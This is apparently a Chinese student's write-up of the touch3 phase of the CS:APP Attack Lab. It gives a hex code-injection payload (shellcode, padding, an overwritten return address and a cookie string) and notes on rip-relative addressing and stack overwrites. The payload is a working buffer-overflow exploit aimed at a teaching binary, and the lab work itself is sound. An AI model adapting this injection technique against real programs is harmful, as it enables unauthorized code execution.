 结果发现还是不行，看了下答案，发现是可以写在栈帧外的（学到了，我太菜了）

```
48 c7 c7 97 dc 61 55
68 fa 18 40 00
c3
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41
78 dc 61 55
35 39 62 39 39 37 66 61 00
```



做这个题遇到的一些小问题总结：

1. 

在以rip寄存器作为寻址访问内存时，rip的值要计算下一条指令的地址，如

```
   0x00000000004018fe <+4>:	movl   $0x3,0x202bd4(%rip)        # 0x6044dc <vlevel>
=> 0x0000000000401908 <+14>:	mov    %rdi,%rsi
```
计算内存地址时，rip的值要取0x401908，结果为0x401908+0x202bd4为0x6044dc

下面是有关cookie的汇编代码
```
=> 0x000000000040190b <+17>:	mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401911 <+23>:	callq  0x40184c <hexmatch>
```
这里的edi值就应该为0x401911+0x202bd3 = 0x6044e4

2. 

关于字符串被覆盖的问题

![image-20210205154932213](C:\Users\xiaofei01\AppData\Roaming\Typora\typora-user-images\image-20210205154932213.png)

最后会因为调用hexmatch压入touch3的返回地址导致字符串被覆盖